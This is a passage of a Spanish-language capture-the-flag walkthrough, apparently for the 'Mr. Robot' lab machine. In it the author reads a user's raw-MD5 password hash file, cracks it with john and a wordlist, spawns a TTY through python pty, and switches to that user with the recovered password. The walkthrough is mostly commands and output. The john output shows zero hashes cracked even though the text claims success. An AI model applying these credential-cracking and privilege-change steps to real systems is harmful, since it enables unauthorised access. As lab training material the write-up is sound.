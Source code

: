 Ahora vamos a mirar los ficheros y sus permisos en el directorio `/home/robot`, detectando que la segunda flag solo la puede leer el usuario `robot`, existe un segundo archivo al cual si tenemos permiso al menos de lectura.

```bash
$ ls -la /home/robot/
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

Vamos a leer el contenido del archivo `password.raw.md5`.

```bash
$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

¡Parece ser que tenemos un hash! Vamos a utilizar otro vector de ataque por fuerza bruta, esta vez con la utilidad `john`, pero antes de ello vamos a ingresar a la carpeta **exploit** y crear un fichero que contenga el hash identificado.

```bash
❯ cd ../exploit
❯ echo "robot:c3fcd3d76192e4007dfb496cca67e13b" > robot.hash
❯ john robot.hash --wordlist=../recon/fsocity.dic -format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2022-05-19 22:19) 0g/s 8580Kp/s 8580Kc/s 8580KC/s 8output..ABCDEFGHIJKLMNOPQRSTUVWXYZ
Session completed
```

El hash fue descifrado y ahora ya tenemos lo que es la posible contraseña del usuario **robot**.

```bash
$ su robot
su: must be run from a terminal
```

Hay un problema, no podemos acceder por la utilidad `su`, sin embargo, verificando en la máquina, podemos ver que tiene `python 2.7.6` el cual nos va a permitir hacer el spawn de una shell en bash, luego de esto podremos ejecutar el comando para escalar privilegios con la contraseña previamente obtenida.

```bash
$ python --version
Python 2.7.6
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:
```
